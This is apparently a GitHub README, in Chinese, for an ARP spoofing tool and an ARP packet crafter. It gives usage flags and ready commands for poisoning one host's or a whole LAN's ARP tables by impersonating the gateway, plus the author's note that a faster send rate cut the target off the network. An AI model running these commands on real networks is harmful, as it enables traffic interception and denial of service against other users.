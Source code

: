# ARP Spoofer        
Usage:        
arpspoof -i interface -t target_ip -s spoofing_host -l interval -g q/p    
    
-i 接口    
-t 目标IP地址    
-s 源IP地址    
-l ARP发包间隔，单位us    
-g 免费ARP选项，q=arp request，p=arp reply     
        
1.攻击具体主机    
伪装网络内网关MAC，发送给某个主机    
./arpspoof.elf -i wlan0 -t 192.168.0.101 -s 192.168.0.1  -l 100     
    
2.攻击网络内所有主机    
./arpspoof.elf -i wlan0 -t 192.168.0.1 -s 192.168.0.1 -l 100 -g p    
    
在使用本例子做arp欺骗实验，将网关的MAC地址替换为本地MAC地址时，      
刚开始发现并没有成功，通过抓包发现，原来网关(192.168.0.1)一直在      
发送免费ARP广播，导致并没有成功覆盖目标主机的MAC地址，在本地加大      
了发送频率，将程序中延迟去掉，成功覆盖目标主机的ARP表，导致目标      
主机无法通过网关上网。        
    
  
# ARP Tools  
## Usage  
<pre>
arp -i interface -q/p -Sip source_ip -Smac source_mac -Tip target_ip -Tmac target_mac  
-i     : interface
-q/p   : arp request/reply

-Sip   : arp source ip
-Smac  : arp source mac

-Tip   : arp target ip
-Tmac  : arp target mac
</pre>
